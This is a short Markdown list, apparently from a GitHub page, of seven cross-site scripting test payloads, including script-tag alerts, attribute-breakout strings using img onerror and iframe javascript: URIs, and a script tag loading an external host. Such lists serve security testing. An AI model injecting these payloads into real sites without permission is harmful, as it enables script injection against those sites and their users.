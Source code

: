 ## XSS 测试 payload

- `<script>alert('xss')</script>`

- `http://localhost/x.html#<script>alert('xss')</script>`

- `<script src=http://www.qq.com></script>`

- `"><script>alert(1)</script>`

- `"><img src=x onerror=alert("xss")>`

- `"><iframe src=javascript:alert(1)></iframe>`

- `</script>`
